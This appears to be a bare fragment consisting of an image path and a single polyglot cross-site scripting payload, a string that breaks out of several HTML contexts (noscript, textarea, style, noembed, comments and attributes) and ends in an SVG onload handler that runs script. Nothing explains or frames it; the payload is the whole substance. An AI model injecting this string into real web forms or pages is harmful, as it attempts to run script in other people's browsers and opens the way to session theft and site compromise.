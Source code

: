 





</xsl:JAVA*@noscript>">>--!></style><p title=</noscript></textarea></noembed>"><svg/onload=alert`1`
